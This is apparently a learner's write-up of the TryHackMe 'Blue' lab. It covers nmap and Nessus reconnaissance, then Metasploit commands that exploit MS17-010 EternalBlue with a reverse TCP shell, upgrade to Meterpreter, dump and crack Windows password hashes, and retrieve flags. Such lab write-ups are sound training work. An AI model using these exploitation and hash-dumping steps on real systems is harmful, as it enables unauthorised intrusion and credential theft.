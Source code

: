 ## TryHackMe - (Eternal)Blue Methodology
> Completed 18th March 2022, Revisited 12th May 2022.

This is the attack methodology I used for TryHackMe's Blue box.
This box is a step back from Blueprint in terms of objective progression, however I found it to be a good lesson in fundamentals.

>Edit: On my second attempt at this box I wanted to find the vulnerability via nmap.

---
### Environment
#### Operating System
- Latest kali-VM rolling update

#### Tools
- Nessus
- Metasploit.

---
### Methodology
#### Objectives/Flags
1. Flag1, This flag can be found at the system root.
2. Flag2, This flag can be found at the location where passwords are stored within Windows.
3. Flag3, this flag can be found in an excellent location to loot.

---
#### Reconnaissance
First I started by running an nmap scan on the target. It was disclosed that ICMP was not going to work so I added in the extra `-Pn` into the options.
```bash
nmap -T4 -Pn <TargetIP>
```
```
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
```
With this portscan I can see that there are several Windows services running on open ports. I figured this was a great time to employ a vulnerability scanner to see what more I could find.
I decided to try Nessus which is a well known vuln. scanner. Once downloading the installation file to my machine and registering for a license...
```bash
sudo apt install -f ./<Nessus.deb>
  service nessusd start
     https://kali:8834/
```
Once Nessus was up and running I set the Target and set it loose. A number of vulnerabilities were flagged and one stood out the most which I took to be relevant to the box.
```
port445 	MS17-010: Security Update for Microsoft Windows SMB Server (4013389) (ETERNALBLUE) (ETERNALCHAMPION) (ETERNALROMANCE) (ETERNALSYNERGY) (WannaCry) (EternalRocks) (Petya) (uncredentialed check)
```

![](/TryHackMe/Blue(Eternal)/images/Blue_001.jpg)

>Edit: Another way this could have been discovered is through the use of nmap's script engine `nmap -T4 -Pn <Target-IP> --script=default,vuln`

![](/TryHackMe/Blue(Eternal)/images/Blue_002.jpg)

#### Weaponization 
N/A

#### Delivery
N/A

#### Exploitation
The box walkthrough mentioned that it was time to use Metasploit which I've never used before. This required a bit of crash-coursing on google to understand the basic usage and commands. After booting it up I searched for the vulnerability code `ms17-010` and designated the local and remote hosts. I had additionally specified the port that was reported through Nessus but I don't know if this was needed.
```bash
metasploit
  search ms17-010
    exploit/windows/smb/ms17_010_eternalblue
      use [0] (exploit/windows/smb/ms17_010_eternalblue)
      set rhost <TargetIP>
      set lhost <LocalIP>
      set lport 445
```
The following option was reccomended by the box's objective guide and I do not have a clear idea of what is does.
```bash
      set payload windows/x64/shell/reverse_tcp 
      run
```
Success, I've now got shell access to the host. From here I was ready to start going for the flags, however the box's objective guide would walk me through upgrading the type of shell access I had to the machine. First, I used ```Ctrl-Z``` to background the process and then worked to upgrade the session.
While still under the ms17-010 exploit I searched for the upgrade.
```bash
search shell_to_meterpreter
  use post/multi/manage/shell_to_meterpreter
sessions -l (used to display current sessions)
  set sessions 1
  run
```
A new session should spawn which I opened with `sessions 2`.

#### Installation 
N/A

#### Command & Control
N/A

#### Actions on Objective
From here I verified the identity.
```bash
getsystem
  Already running as SYSTEM
getuid
    NT AUTHORITY\SYSTEM 
```
An interesting step which the box's objective walkthrough made me take was to migrate the process ID (PID). I didn't know this was possible but was interesting to try. I used ```PS``` to display the processes running on the machine and was tasked to find a process which was under ```NT AUTHORITY\SYSTEM```. This had failed a few times and even crashed the session. I was not surprised by this as it was explained the migrate command was unstable.
The process that I went with:
```
692   596   services.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe
```
```bash
ps 
  migrate 692
```

![](/TryHackMe/Blue(Eternal)/images/Blue_003.jpg)

According to the walkthrough Metasploit can immediately dump the Windows machine's hashes. This was so much more convenient than my attempts at extracting hashes in the Blueprint box. Instead of messing around with Hashcat however, I went straight to crackstation.
```
hashdump
  Administrator:500:<Hash>:<Hash>:::
  Guest:501:<Hash>:<Hash>:::
  Jon:1000:<Hash>:<Hash>:::
    https://crackstation.net/
      Insert <hash> -> crack
        <password>
```

After this was successful, I got to work on the flags. Considering the descriptions on their locations and my interaction with the previous box (Blueprint) I knew where these were going to be.
```
Navigated to C:\
  flag1.txt
    cat flag1.txt
		
Listing: C:\Windows\system32\config
  flag2.txt
    cat flag2.txt

Listing: C:\Users\jon\Documents
  flag3.txt
    cat flag3.txt
  ```
---
### After-action
#### What I've learned
I really enjoyed this box as I got to explore some more powerful industry tools. Fortunately, I've had experience with vulnerability scanners in the past so Nessus was really straight forward and familiar to use, navigate and understand. Metasploit, however was something I had never really used before but have heard so much about so getting my hands on with an objective was fantastic. I will definitely look to leverage its power in future exercises.

#### What I would've done differently
I would've liked to use screenshots to go along with these blog entries however the administration behind it would probably do my head in. I would however be looking into options of screen-recoding for my own sake of documentation and will allow me to better reflect on my steps.

>Edit: I am happy with my second attempt at this box. I still have some confusion as to why we close the [0] options when searching for ms17-010 exploits.